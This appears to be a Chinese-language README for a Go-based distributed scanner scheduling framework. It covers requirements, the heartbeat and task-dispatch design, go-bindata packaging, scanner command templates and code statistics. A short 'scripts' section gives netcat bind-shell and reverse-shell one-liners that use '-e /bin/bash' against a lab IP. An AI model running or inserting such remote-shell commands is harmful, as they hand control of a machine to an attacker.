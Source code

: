 # 项目要求
```go
扫描调度框架，建议实现如下功能:
1、扫描器一键发布（通过提供ssh地址、账号、密码，实现一键发布）
2、任务增、删、改、查，状态监控
3、扫描结果回传、展示（在调度框架上实现初步展示）
4、扫描结果与网络空间测绘平台对接，清洗、入库
```
# 一 整体设计

![](./screenshot/manager.png)

## 1 通讯逻辑
```go
通讯方式改为了中心节点向worker发送http心跳请求
work节点就是一个http的服务
中心调度系统确实也是可以分布式的
```

## 2 调度逻辑

中心节点遍历任务，抢锁后通过http请求分发任务

# 二 源码相关

## 1 静态资源的打包

所用的包
```go
Go 语言打包静态文件以及如何与Gin一起使用Go-bindata
```

安装方法
```go

go get -u github.com/jteeuwen/go-bindata/...

安装前需要先关闭go mod
go env -w GO111MODULE=off

#通过命令行加入GOBIN的PATH
export PATH=$PATH:$GOPATH/bin
#编辑启动配置文件，开机后自动加载这个路径
nano ~/.bashrc
#编辑完成后，重新加载环境变量到内存
source ~/.bashrc

```

前端修改后打包进go项目
```go
go-bindata -o=core/utils/asset/asset.go -pkg=asset web/crocodile/... sql
```

# 三 项目的安装

数据库是先要新建的   表和数据是通过代码初始化的


#
vscan -host {ip} -p {port} -json -o {res}

 apt install libpcap-dev


kscan -t {ip} -p {port} -oJ {res}



# 脚本
## 主动shell
nc -lvvp 6666 -e /bin/sh   主动shell

nc 192.168.56.132 6666  攻击机联

## 反弹shell
nc 192.168.56.132 4444 -e /bin/bash    被攻击主动的联 132
nc -lp 4444     攻击机可以处理
  



# 代码统计
Language                     files          blank        comment           code
-------------------------------------------------------------------------------
SQL                             33             58            276          25412
Go                             151           3704           2190          21657
CSS                             26              7            378           9945
SVG                              1              0              4           4696
HTML                            17            101             12           2489
JSON                             2              0              0           1546
XML                              2             11              1            990
YAML                             2              0              0            955
INI                              5             98              0            456
JavaScript                      35             67            429            408
Bourne Shell                    16            101             16            364
TOML                             6             26            176            306
Markdown                        10            113              0            278
CSV                              1              0              0             59
make                             1             15              0             50
Protocol Buffers                 1              8              8             34
Dockerfile                       1              2              2              6
D                                2              0              0              2
-------------------------------------------------------------------------------
SUM:                           312           4311           3492          69653